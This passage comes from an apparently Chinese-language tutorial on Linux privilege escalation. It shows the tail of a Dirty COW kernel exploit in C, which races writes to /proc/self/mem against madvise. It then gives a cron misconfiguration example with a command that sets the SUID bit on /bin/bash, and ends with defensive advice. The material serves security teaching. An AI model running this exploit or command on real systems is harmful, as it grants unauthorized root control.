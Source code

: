 ```c
    return NULL;
}

void *procselfmemThread(void *arg) {
    int f = open("/proc/self/mem", O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !c; i++) {
        lseek(f, (off_t) map, SEEK_SET);
        c += write(f, name, strlen(name));
    }
    printf("procselfmem %d\n\n", c);
    return NULL;
}

int main(int argc, char *argv[]) {
    pthread_t pth1, pth2;

    f = open(argv[1], O_RDONLY);
    fstat(f, &st);
    name = argv[2];

    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

    pthread_create(&pth1, NULL, madviseThread, NULL);
    pthread_create(&pth2, NULL, procselfmemThread, NULL);

    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);

    return 0;
}
```

### 2. Misconfigured Services

某些服务如果配置不当，也可能被用于权限提升。例如，一个配置错误的cron作业可能允许普通用户编写脚本并以root权限运行。

#### 配置错误示例

```bash
# /etc/crontab
* * * * * root /path/to/script.sh
```

如果/path/to/script.sh是可写的，攻击者可以修改脚本内容，实现权限提升。

``` bash
echo 'chmod u+s /bin/bash' > /path/to/script.sh
```

## 总结

权限提升漏洞可能导致严重的安全问题，攻击者可以从低权限用户提升到高权限用户，获得系统的完全控制权。通过最小权限原则、定期审计权限配置、使用ACL、安全编码实践、启用安全模块和日志监控等措施，可以有效防范权限提升漏洞，提高系统安全性。

